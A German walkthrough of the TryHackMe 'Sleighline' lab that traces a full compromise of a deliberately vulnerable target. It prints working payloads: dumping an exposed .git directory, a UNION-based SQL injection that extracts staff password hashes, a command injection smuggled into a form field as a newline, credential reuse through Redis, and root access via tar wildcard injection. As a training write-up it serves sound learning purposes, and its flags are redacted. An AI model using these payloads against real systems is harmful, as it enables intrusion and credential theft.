









# TryHackMe: Sleighline — Walkthrough

> **Spoilerwarnung:** Dieser Bericht beschreibt den vollständigen Weg von der Webanwendung bis zu Root. Alle Flags sind im Text ausgelassen und in den Screenshots mit schwarzen Balken geschwärzt.

[Zum Room](https://tryhackme.com/room/sleighline)

## Kurzüberblick

| Punkt | Ergebnis |
| --- | --- |
| Schwierigkeitsgrad | Medium |
| Offene TCP-Ports | 22 (SSH), 80 (HTTP) |
| Einstieg | Öffentlich erreichbares `.git` und SQL-Injection im Wunsch-Tracking |
| Web-Zugriff | `santa_ops` nach Crack eines MD5-Hashes |
| Code-Ausführung | Zeilenumbruch im Feld `style` des Geschenk-Tag-Generators |
| Interner Dienst | Route Planner auf Port 8080 |
| Weiterer Zugriff | Redis-Eintrag mit SSH-Zugang für `jingle` |
| Privilegienerweiterung | `sudo`-Skript mit GNU-tar-Wildcard-Injection |


**Laborhinweis:** Die Zieladresse wird bei jedem Start neu vergeben. Bei dieser erneuten Prüfung war sie `10.112.129.38`. Die in einer alten Git-Notiz beschriebene zweite Netzwerkschnittstelle war auf dieser Instanz nicht vorhanden. Der Planner war aus dem Kontext der kompromittierten Webanwendung über `127.0.0.1:8080` erreichbar; Redis lauschte auf `127.0.0.1:6379`. SSH zu `jingle` lief über die aktuelle Zieladresse. Die Git-Notiz ist daher ein Hinweis auf die beabsichtigte Architektur, kein Beweis für einen tatsächlich nötigen Tunnel in dieser Instanz.

## 1. Reconnaissance

Ein vollständiger TCP-Scan fand ausschließlich SSH und HTTP:

```bash
export T=<ZIEL-IP>
nmap -p- --min-rate 1000 "$T"
```


Auf Port 80 lag das Wishlist Portal. Zusätzlich war das Git-Verzeichnis über HTTP erreichbar: `/.git/HEAD` verwies auf `refs/heads/main`, und die Ref lieferte einen Commit-Hash. Ein normaler `git clone` über HTTP funktionierte hier nicht, weil die Git-Transport-Endpunkte fehlten. Die Git-Objekte selbst ließen sich jedoch einzeln abrufen und mit `git cat-file` auswerten.

```bash
curl -s "http://$T/.git/HEAD"
commit=$(curl -s "http://$T/.git/refs/heads/main")
git init -q recovered
cd recovered
fetch_object() {
  hash=$1
  mkdir -p ".git/objects/${hash:0:2}"
  curl -fsS "http://$T/.git/objects/${hash:0:2}/${hash:2}" \
    -o ".git/objects/${hash:0:2}/${hash:2}"
}
fetch_object "$commit"
git cat-file -p "$commit"
# Parent-Commit und die angezeigten Tree-/Blob-Hashes ebenso abrufen.
# In der alten Tree-Version liegt notes/DEPLOY.md.
```


In der Historie lag die gelöschte Datei `notes/DEPLOY.md`. Sie enthielt die erste Flag, einen Hinweis auf `/app/config.ini` und die Adresse des Route Planners. Die Flag ist im Screenshot geschwärzt.


## 2. SQL-Injection und Staff-Zugang

Die Tracking-Funktion übernahm den Parameter `id` auf `/track` in eine SQL-Abfrage. Ein `ORDER BY`-Test zeigte: Position 4 war gültig, Position 5 erzeugte einen Datenbankfehler. Die Abfrage lieferte somit **vier Spalten**.

```bash
for n in 4 5; do
  curl -sG --data-urlencode "id=1 ORDER BY $n-- -" "http://$T/track"
done
```

Anschließend lieferte eine `UNION SELECT`-Abfrage Daten aus der Tabelle `staff`. `group_concat` fasste die Zeilen in der zweiten Ausgabespalte zusammen; `||` verknüpfte in der verwendeten Datenbank die Werte.

```bash
curl -sG --data-urlencode \
  "id=-1 UNION SELECT 1,group_concat(username||':'||password||':'||role,'|'),3,4 FROM staff-- -" \
  "http://$T/track"
```

Für `santa_ops` wurde dabei ein Raw-MD5-Hash sichtbar.



Der Hash `3b9787927ecbf1b5a270ce1ff8566872` ließ sich mit John und `rockyou.txt` als `snowball` auflösen:

```bash
printf '%s\n' 'santa_ops:3b9787927ecbf1b5a270ce1ff8566872' > hashes.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show --format=Raw-MD5 hashes.txt
```



Mit `santa_ops:snowball` gelang die Anmeldung im Staff-Bereich. Dort lag die Operations-Flag und der Geschenk-Tag-Generator.



## 3. Command Injection als `elf`

Der Tag-Generator übernahm `style` in einen Shell-Befehl. Ein URL-kodierter Zeilenumbruch beendete das erwartete Argument; `#` kommentierte den Rest aus. Die folgende Anfrage demonstriert die Ausführung von `id`:

```bash
curl -s -b cookies.txt \
  --data-urlencode 'name=Mia' \
  --data-urlencode $'style=classic\nid\n#' \
  "http://$T/admin/tag"
```

Die Ausgabe zeigte `uid=113(elf)`. Über denselben Mechanismus ließ sich `/home/elf/flag.txt` lesen.


`ss -tln` zeigte den Planner auf Port **8080** und Redis auf **6379**. Redis war an die Loopback-Adresse gebunden. Die Web-Code-Ausführung reichte aus, um beide Dienste vom Zielsystem aus anzusprechen.



## 4. Planner und Manifest

In `/app/config.ini` stand der Service-Zugang `portal-sync:Tinsel-Sync-2026!`. Die Anmeldung am Planner über `127.0.0.1:8080/login` lieferte einen Session-Cookie und leitete nach `/manifest` weiter. Die Befehle wurden über die zuvor bestätigte Code-Ausführung im Kontext von `elf` ausgeführt:

```bash
curl -si -c /tmp/routecookies \
  -d 'username=portal-sync' \
  -d 'password=Tinsel-Sync-2026!' \
  http://127.0.0.1:8080/login

curl -s -b /tmp/routecookies http://127.0.0.1:8080/manifest
```

Das Manifest enthielt eine weitere Flag.



Die Seite `/maintenance` nannte den Redis-Host, Port und das Passwort `Frosty-Cache-77`. Eine Notiz erklärte außerdem, dass der Workshop-Zugang vorübergehend im Cache gespeichert sei.



## 5. Redis zu SSH

Mit dem Redis-Passwort ließ sich der Schlüssel `maint:workshop-host` finden. `HGETALL` zeigte den SSH-Benutzer `jingle` und das Passwort `Gingerbread-Sleigh-1225`:

```bash
redis-cli -a 'Frosty-Cache-77' SCAN 0
redis-cli -a 'Frosty-Cache-77' HGETALL maint:workshop-host
```




SSH auf Port 22 akzeptierte diese Zugangsdaten. Im Home-Verzeichnis von `jingle` lag die User-Flag.

```bash
ssh jingle@"$T"
cat ~/user.txt
```


## 6. Privilegienerweiterung mit tar

`sudo -l` erlaubte `jingle`, `/usr/local/bin/wrap-gifts` ohne Passwort als Root auszuführen. Das Skript wechselte nach `/home/jingle/gifts` und rief dort `tar czf /var/backups/gifts.tgz *` auf. Weil `*` durch die Shell in Dateinamen aufgelöst wird, kann ein Dateiname mit `--` für `tar` wie eine Option aussehen.


Zwei vom Benutzer kontrollierte Dateien lieferten `--checkpoint=1` und `--checkpoint-action=exec=sh readroot.sh`. Das kleine Skript schrieb einen Root-`id`-Beleg und die Root-Flag in Dateien, die `jingle` danach lesen konnte. `chmod 644` war nötig, weil `wrap-gifts` `umask 077` setzt.

```bash
echo 'id > /home/jingle/root-id.txt; cat /root/root.txt > /home/jingle/rootflag.txt; chmod 644 /home/jingle/root-id.txt /home/jingle/rootflag.txt' > ~/gifts/readroot.sh
cd ~/gifts
touch -- '--checkpoint=1' '--checkpoint-action=exec=sh readroot.sh'
ls -la
sudo /usr/local/bin/wrap-gifts
cat /home/jingle/root-id.txt /home/jingle/rootflag.txt
```



Der abschließende Beleg zeigte `uid=0(root)` und die geschwärzte Root-Flag.



## Ergebnis und Ursachen

Der Room war mit allen 12 Aufgaben abgeschlossen. Die sechs Flag-Werte sind bewusst nicht veröffentlicht. Die übrigen Antworten waren: **2** offene TCP-Ports, **4** SQL-Spalten, Staff-Passwort `snowball`, Web-Benutzer `elf`, Planner-Port **8080**, Redis-Schlüssel `maint:workshop-host`.

Die Angriffskette beruhte auf mehreren unabhängig vermeidbaren Fehlern: öffentlich lesbarem Git-Verzeichnis, unsicherer SQL-Abfrage, schwachem MD5-Passwort, Shell-Interpolation einer Formulareingabe, Zugangsdaten in Konfigurationsdateien und Redis sowie einem privilegierten `tar`-Aufruf mit nutzerkontrolliertem Wildcard-Argument.

**Bildprüfung:** Die Original-Screenshots mit Flags befinden sich nicht in diesem Repository. Alle hier eingebundenen Bilder wurden vor dem Upload kontrolliert; jede sichtbare Flag ist mit einem deckenden schwarzen Rechteck geschwärzt.
